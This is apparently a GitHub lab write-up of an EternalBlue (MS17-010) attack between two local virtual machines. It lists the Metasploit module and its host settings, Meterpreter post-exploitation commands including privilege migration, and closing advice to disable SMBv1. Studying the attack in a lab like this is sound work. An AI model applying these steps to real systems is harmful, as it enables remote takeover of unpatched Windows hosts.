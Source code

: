 # MS17-010 | EternalBlue Vulnerability Demonstration

## Lab setup & Environment

**Operating system:** Windows 10

**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))

**Download Oracle Virtual Machine:**

https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines

**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

## Steps-by-steps Process
### Setup Oracle virtual box

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

### Vulnerability report

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

### Nmap 

nmap 192.168.0.141
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


## Exploitation

### Commands:

**Msfconsole**

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

**search ms1_010**

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
**option command**
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

### System Information

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG) 

### Screenshot command
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
### Going into Desktop
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
### Creating folder
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

### Shutdown command
 
![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### END

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**








